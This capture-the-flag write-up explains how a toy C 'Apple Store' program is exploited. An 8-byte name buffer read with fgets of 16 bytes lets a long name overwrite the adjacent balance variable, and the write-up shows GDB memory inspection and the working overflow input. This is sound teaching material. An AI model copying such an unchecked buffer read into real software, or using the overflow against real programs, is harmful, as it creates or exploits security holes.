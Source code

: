 # applestore
## slopey | 2/22/2020

# Introduction
We are given a simple executable where we can enter our name and whether or not we want to buy an iPhone.
```
---------------------------
Welcome to the Apple Store!
---------------------------
Enter your name: slopey
Would you like to buy an overpriced phone with a garbage operating system for $45,555? (y/n): y

Unfortunately you do only have $32. You should use Linux anyways...
```
However, it seems like no matter what we input, we do not have enough money in our balance to purchase an iPhone. The goal of this task is to manipulate our balance in order to have sufficient funds to purchase an iPhone.

# Code Analysis
First, variables are declared at the very top.

```c
char name[8];
int choice;
long balance = 32;
```

As you can see, our balance is initialized to 32, which explains why we don't have enough money to purchase an iPhone.

Next, we enter our name and whether we want an iPhone.

```c
printf("Enter your name: ");
fgets(name, 16, stdin);

printf("Would you like to buy an overpriced phone with a garbage operating system for $45,555? (y/n): ");
choice = getchar();
puts("");
```

If we don't want an iPhone, the program terminates, so we have no option but to say yes.

```c
if (choice == 'n') {
    puts("Leave.");
    exit(0);
}
```

If we say yes and our balance is more than $45,555, we are given the iPhone. Otherwise, the program terminates.

```c
if (balance > 45555) {
    puts("Congragulations! You are now the proud owner of an iPhone!");
    exit(0);
} else {
    printf("Unfortunately you do only have $%d. You should use Linux anyways...\n", balance);
    exit(0);
}
```

# Vulnerability

A vulnerability exists when the name is read from stdin. Although name is allocated to be 8 bytes, fgets reads in 16 bytes, leading to a buffer overflow.

# Exploitation

First, let's examine the program's memory using GDB. I set a breakpoint at the very last instruction, right before the program terminates. This tells GDB to stop code execution right before the program finishes, so we can get an accurate portrait of memory. If we set a breakpoint at the very beginning of the code, nothing has happened, so memory will be filled with irrelevant information.

Also, note that I'm using the `gef` extension for gdb so all of my terminal output begins with `gef➤ ` instead of `(gdb)`. 

In order to set a breakpoint at the last instruction of the code, let's first disassemble the `main` function. 

```
gef➤  disas main
<---cut for brevity--->
   0x000000000040123c <+214>:	mov    edi,0x0
   0x0000000000401241 <+219>:	call   0x401070 <exit@plt>
```


Before we go any further, I want to briefly explain what disassemblies are. Recall from earlier that the C code provided was semi-readable. That is to say, even from the perspective of someone who doesn't know how to program, the C code was more or less understandable. Also, know that the CPU is the component in computers which execute code. However, the CPU does not understand C code. There must be a transitionatory stage where the C code is compiled to assembly code, a language that the CPU understands. The disassembly is simply the assembly code that the C code was converted to.

Now, let's set a breakpoint at the last instruction.

```
gef➤  b *0x0000000000401241
Breakpoint 1 at 0x401241
```

Next, we can run the program and it will stop right before the program terminates.

```
gef➤  r
Starting program: /home/slopey/Documents/ehc/applestore/applestore
---------------------------
Welcome to the Apple Store!
---------------------------
Enter your name: slopey
Would you like to buy an overpriced phone with a garbage operating system for $45,555? (y/n): y

Unfortunately you do only have $32. You should use Linux anyways...

Breakpoint 1, 0x0000000000401241 in main ()
```

Reaching the end, we can now inspect what the memory of the program looks like right before the program terminates.

```
gef➤  x/20gx $rsp
0x7fffffffe7e0:	0x0000000000000000	0x706f6c7300401080
0x7fffffffe7f0:	0x00000079000a7965	0x0000000000000020
0x7fffffffe800:	0x0000000000000000	0x00007ffff7e06b25
0x7fffffffe810:	0x00007fffffffe8f8	0x00000001f7fca000
0x7fffffffe820:	0x0000000000401166	0x00007fffffffeb69
0x7fffffffe830:	0x0000000000401250	0xe3c14b474c5dae0a
0x7fffffffe840:	0x0000000000401080	0x0000000000000000
0x7fffffffe850:	0x0000000000000000	0x0000000000000000
0x7fffffffe860:	0x1c3eb4b89c7dae0a	0x1c3ea48799e9ae0a
0x7fffffffe870:	0x0000000000000000	0x0000000000000000
```

Let me briefly explain what the command I typed means. First, recall that rsp is a register which contains the address of the top of the stack. We can inspect the value of the rsp register like so:

```
gef➤  info register rsp
rsp            0x7fffffffe7e0      0x7fffffffe7e0
```

As you can see, this means that the top of the stack is the address `0x7fffffffe7e0`. Note that this value is written in base-16. In decimal form, this number can be represented as 140737488349152. The `x` command is used to inspect memory. The syntax of the `x` command is like this: `x/<width><size><format> address`.

The format is the representation of the values. In this case, I use the format `x` to represent the values in hex. Alternatively, I can use the format `d` to represent the values in decimal, or the format `s` to represent the values in English.

The size field only applies when the format is `x`. The size field dictates how many bytes are in each "block" as seperated by whitespace. `g` means 8 bytes (AKA doubleword), `w` means 4 bytes (AKA word), `h` means 2 bytes (AKA half) and `b` means 1 byte (AKA byte). 

Finally, the width is the number of blocks. Putting it all together, this means that the command `x/20gx $rsp` means to display 20 8 byte blocks in hex form starting from the address contained in the rsp register.

First, let's try to find where my name is in memory. This is where recognizing ASCII is helpful. ASCII is how English is represented in base-16. Once you get the hang of it you can tell if memory is either random irrelevant stuff or English text. In this case, I can tell that my name is likely at the address `0x7fffffffe7ec`. I can make sure by running the command:

```
gef➤  x/s 0x7fffffffe7ec
0x7fffffffe7ec:	"slopey\n"
```

Of course, this might be a little difficult at first. The other way is to just use the built-in command `find` like so:

```
gef➤  find $rsp, +0x400, "slopey\n"
0x7fffffffe7ec
1 pattern found.
```

You have to add a newline character "\n" to the end of your search parameter because fgets includes the newline.  The syntax of the find command is like so: `find <start address>, +<length>, <expression>`.

Let's also figure out where the balance is.

```
gef➤  find $rsp, +0x400, 32
0x7fffffffe7f8
1 pattern found.
```

We can find the distance between these two variables in memory by doing the following:

```
gef➤  p 0x7fffffffe7f8 - 0x7fffffffe7ec
$3 = 0xc
```

0xc is 12 in hex. We know that fgets lets us read in 16 characters. So, as long as our name is at least 12 characters, we have overflowed the balance! We can verify this by entering a 12-character long name.

```
[slopey@mariner applestore]$ ./applestore
---------------------------
Welcome to the Apple Store!
---------------------------
Enter your name: AAAAAAAAAAAA
Would you like to buy an overpriced phone with a garbage operating system for $45,555? (y/n): y

Unfortunately you do only have $10. You should use Linux anyways...
```

Look! We were able to change our balance to $10! The reason the balance is now $10 is because the newline character, "\n", is now at the balance variable. The actual length of our name is 13; 12 bytes of As and 1 byte of newline. The decimal representation of "\n" is actually 10. 

Simply having a longer name gives us the intended result:

```

pey@mariner applestore]$ ./applestore
---------------------------
Welcome to the Apple Store!
---------------------------
Enter your name: AAAAAAAAAAAAAA
Would you like to buy an overpriced phone with a garbage operating system for $45,555? (y/n): y

Congragulations! You are now the proud owner of an iPhone!
```
